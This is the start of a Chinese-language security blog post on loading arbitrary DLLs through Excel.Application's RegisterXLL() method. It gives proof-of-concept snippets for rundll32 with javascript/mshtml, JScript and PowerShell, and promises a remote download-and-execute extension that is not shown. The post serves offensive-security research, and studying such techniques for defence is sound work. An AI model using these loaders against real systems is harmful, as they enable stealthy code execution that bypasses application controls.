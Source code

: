 ```yaml
---
layout: post
title: Use Excel.Application object's RegisterXLL() method to load dll
---
```



## 0x00 前言
---

Ryan Hanson‏@ryHanson最近分享了一个技巧，利用`Excel.Application object's RegisterXLL()`能够加载dll。我对其分享的POC作了测试，接着做了扩展，添加功能实现远程下载执行，并且分析该方法相关的利用技巧，详细介绍脚本开发中的细节。


## 0x01 简介
---

本文将要介绍如下内容：

- POC测试
- 添加功能实现远程下载执行
- 扩展用法1：通过powershell实现
- 扩展用法2：结合rundll32使用

## 0x02 POC测试
---

**POC地址如下：**

https://gist.github.com/ryhanson/227229866af52e2d963cf941af135a52

前提是系统已安装Microsoft Office软件，共提供三种利用方式


### 1.rundll32

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";x=new%20ActiveXObject('Excel.Application');x.RegisterXLL('C:\\test\\messagebox.dll');this.close();
```

### 2.js

```
var excel = new ActiveXObject("Excel.Application");
excel.RegisterXLL("C:\\test\\messagebox.dll");
```

### 3.powershell

```
$excel = [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application"))
$excel.RegisterXLL("C:\test\messagebox.dll")
```
